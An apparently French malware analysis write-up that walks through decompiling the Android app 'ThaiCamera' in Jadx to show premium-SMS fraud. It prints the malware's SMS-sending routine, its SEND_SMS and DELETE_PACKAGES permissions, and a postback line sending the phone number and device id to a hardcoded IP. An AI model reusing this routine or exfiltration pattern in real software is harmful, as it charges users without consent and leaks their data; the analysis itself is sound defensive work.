






# ThaiCamera - Pattern d'une fraude

Par ou commencer l'analyse ? L'application commet-elle de la fraude aux SMS payant ? (Envoi de SMS a des numeros surtaxes)

- 1) Envoi d'un sms? 

https://developer.android.com/reference/android/telephony/SmsManager

```java
sendTextMessage
sendMultipartTextMessage
```

- 2) A un numéro "premium" = shortcode?

- 3) Sans le consentement de l'utilisateur?

https://developer.android.com/training/permissions/requesting?hl=fr


```java
onRequestPermissionsResult
```

## 1) Envoi d'un SMS? (sendTextMessage)

### `AndroidManifest.xml`

On observe des permissions inadaptées:

```xml
<uses-permission android:name="android.permission.SEND_SMS"/>
...
<uses-permission android:name="android.permission.DELETE_PACKAGES"/>
```

### Jadx : Navigation -> Text Search: `sendTextMessage` || `sms`

```java
# Classe AppLaunchChecker
if (!sp.getBoolean(KEY_STARTED_FROM_LAUNCHER, false) && (launchIntent = activity.getIntent()) != null && "android.intent.action.MAIN".equals(launchIntent.getAction()))

# Classe Loading - Trigger fraude
        
PendingIntent sentintent = PendingIntent.getBroadcast(this, 0, itSend, 134217728);
	try {
		if (content.length() > 70) {
			List<String> msgs = sms.divideMessage(content);
			for (String msg : msgs) {
				sms.sendTextMessage(mobile, null, msg, sentintent, null);
			}
		return;
	}

# Classe BootService
String spec = "http://139.59.107.168:8088/smspostback?phone=" + this.phone + "&status=" + status + "&diviceid=" + device;
```

Oui, et récupération avec une ip étrange. 



## 2) Abus avec un shortcode de SMS premium?

Cherchons à partir de la procédure trouvée:

```java

    public void sendMessage(String mobile, String content) {
        Bundle bundle = new Bundle();
        bundle.putString(FirebaseAnalytics.Param.ITEM_NAME, "SEND_SMS");
        this.mFirebaseAnalytics.logEvent(FirebaseAnalytics.Event.SELECT_CONTENT, bundle);
        Intent itSend = new Intent("SENT_HUGE_SMS_ACTION");
        itSend.putExtras(bundle);
        SmsManager sms = SmsManager.getDefault();
        PendingIntent sentintent = PendingIntent.getBroadcast(this, 0, itSend, 134217728);
        try {
            if (content.length() > 70) {
                List<String> msgs = sms.divideMessage(content);
                for (String msg : msgs) {
                    sms.sendTextMessage(mobile, null, msg, sentintent, null);
                }
                return;
            }
            sms.sendTextMessage(mobile, null, content, sentintent, null);
        } catch (Exception e) {
            SharedPreferences sharedPreferences = getSharedPreferences("videoLibrary", 0);
            SharedPreferences.Editor editor = sharedPreferences.edit();
            editor.putString("videoShare", AppEventsConstants.EVENT_PARAM_VALUE_NO);
            editor.apply();
            e.printStackTrace();
        }
    }
```

### Jadx : Navigation -> Text Search: `sendMessage`



On arrive donc dans le package `com.camera.Loading`. Ici est appelée `sendMessage` avec la procédure `onRequestPermissionsResult`:

### Cross reference - trouver le service : Clic droit -> FindUsage(x)

Quelle est la valeur de `service`, d'où cela provient:



On arrive donc sur la procédure `onCreate` qui stocke dans un JSON le numéro résultant de `loginByPost` et crée le `service`:

https://developer.android.com/training/permissions/requesting?hl=fr



Puis on retourne sur `loginByPost`


## 3) Utilisateur au courant de la fraude?

On revient sur `onRequestPermissionsResult`:



On trouve la méthode privée `getPhoneNumber` et on fait un **FindUsage(x)**:


Si l'utilisateur a accepté ceci, le code premium est lancé (il faudrait debug):

```java
ActivityCompat.requestPermissions(Loading.this, new String[]{"android.permission.SEND_SMS"}, 1);
```


Donc l'utilisateur est pas au courant qu'on lui demande la permission SMS pour la fraude:


